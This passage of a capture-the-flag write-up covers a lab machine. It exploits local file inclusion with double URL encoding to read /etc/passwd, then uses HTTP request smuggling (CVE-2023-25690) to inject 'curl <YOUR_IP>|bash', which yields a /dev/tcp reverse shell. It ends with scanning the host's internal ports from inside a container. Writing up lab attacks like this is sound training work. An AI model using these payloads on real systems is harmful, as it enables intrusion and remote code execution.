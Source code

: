     ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756507119228/765830c5-d752-4879-9e2e-4d9c2ce61cd2.png align="center")
    

---

## 4\. LFI Bypass and Exploitation with Double URL Encoding

To exploit **Local File Inclusion (LFI)**, use double URL encoding (`..%252f`).

```bash
curl --path-as-is "http://contrabando.thm/page/..%252f..%252f..%252f..%252f..%252f/etc/passwd"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756507075217/0cf94cac-4089-49f5-9489-3d802c89d5d8.png align="center")

This dumps `/etc/passwd` successfully.

---

## 5\. Exploiting HTTP Request Smuggling (CVE-2023-25690)

Setup reverse shell listener:

```bash
nc -lvnp 4444
printf '/bin/bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1\n' > shell.sh
python3 -m http.server 80
```

Trigger the **request smuggling payload**:

```bash
curl --path-as-is "http://contrabando.thm/page/\
test%20HTTP/1.1%0D%0AHost:%20localhost%0D%0A%0D%0A\
POST%20/gen.php%20HTTP/1.1%0D%0AHost:%20localhost%0D%0A\
Content-Type:%20application/x-www-form-urlencoded%0D%0A\
Content-Length:%2031%0D%0A%0D%0Alength=;curl%20<YOUR_IP>%7Cbash;%0D%0A%0D%0A\
GET%20/test"
```

This grants a reverse shell as `www-data` inside a container.

---

## 6\. Pivot to Host - Discover Internal Services

From the container shell, identify the host IP:

```bash
HOST=$(awk '$2=="00000000"{printf "%d.%d.%d.%d\n","0x"substr($3,7,2),"0x"substr($3,5,2),"0x"substr($3,3,2),"0x"substr($3,1,2); exit}' /proc/net/route)
echo "$HOST"
```

Scan internal services:

```bash
for p in 80 8080 5000 3000 443; do
  code=$(curl -s -m 1 -o /dev/null -w "%{http_code}" "http://$HOST:$p/")
  [ "$code" != "000" ] && echo "reachable $p (HTTP $code)" || echo "no HTTP $p"
done
```

